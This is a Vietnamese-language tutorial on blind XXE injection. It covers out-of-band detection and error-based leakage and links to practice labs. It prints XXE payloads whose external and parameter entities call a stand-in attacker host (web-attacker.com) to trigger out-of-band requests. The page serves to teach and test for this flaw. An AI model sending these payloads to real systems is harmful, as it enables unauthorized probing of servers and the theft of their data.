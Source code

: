 # Overview:

Lỗ hổng XXE mù (Blind XXE) xảy ra khi ứng dụng bị tổn thương bởi XXE injection nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào trong phản hồi. Điều này làm cho việc khai thác blind XXE khó khăn hơn so với các lỗ hổng XXE thông thường.

Để tìm và khai thác các lỗ hổng blind XXE, bạn có thể sử dụng các phương pháp sau:

1. Kích hoạt tương tác mạng ngoài phạm vi: Bạn có thể tạo ra các yêu cầu mạng tới các hệ thống bên ngoài mà ứng dụng có thể truy cập. Đồng thời, bạn cần tạo ra một cơ chế để thu thập thông tin hoặc dữ liệu nhạy cảm từ các yêu cầu này. Ví dụ, bạn có thể thiết lập một máy chủ nghe (listener) để nhận dữ liệu exfiltrated từ ứng dụng.

2. Kích hoạt lỗi phân tích XML để thu thập thông tin nhạy cảm: Bạn có thể thử gây ra lỗi phân tích XML bằng cách đưa vào các dữ liệu không hợp lệ hoặc gây ra xung đột trong cú pháp XML. Sau đó, bạn sẽ kiểm tra các thông báo lỗi hoặc thông báo phản hồi từ ứng dụng để tìm thông tin nhạy cảm như đường dẫn tệp, tên người dùng, hoặc thông tin hệ thống khác.

# Phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST):

Bạn có thể phát hiện lỗ hổng blind XXE bằng cách sử dụng kỹ thuật out-of-band (OAST) giống như cho các cuộc tấn công XXE SSRF, nhưng kích hoạt tương tác mạng ngoài phạm vi đến một hệ thống mà bạn kiểm soát. Ví dụ, bạn sẽ xác định một thực thể bên ngoài như sau:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Thông qua việc xác định thực thể bên ngoài này, bạn có thể tạo ra các yêu cầu HTTP hoặc DNS đến hệ thống mà bạn kiểm soát. Bằng cách theo dõi các yêu cầu đến hệ thống của bạn, bạn có thể xác định thông tin nhạy cảm hoặc thu thập dữ liệu từ ứng dụng mục tiêu.

Thực hành ở đây.

Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do việc kiểm tra đầu vào bởi ứng dụng hoặc việc tăng cường bảo mật của trình phân tích cú pháp XML đang được sử dụng. Trong tình huống này, bạn có thể sử dụng thực thể XML thông số thay thế. Thực thể XML thông số là một loại đặc biệt của thực thể XML chỉ có thể được tham chiếu ở nơi khác trong DTD. Đối với mục đích hiện tại, bạn chỉ cần biết hai điều. Thứ nhất, khai báo một thực thể XML thông số bao gồm ký tự phần trăm trước tên enitity:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
và

```xml
%myparameterentity;
```
Điều này có nghĩa là bạn có thể kiểm tra các lỗ hổng XXE mù bằng cách sử dụng phát hiện ngoài dòng thông qua các thực thể XML thông số như sau:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Thực hành [ở đây](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exercises/Lab%3A%20Blind%20XXE%20with%20out-of-band%20interaction%20via%20XML%20parameter%20entities.md).

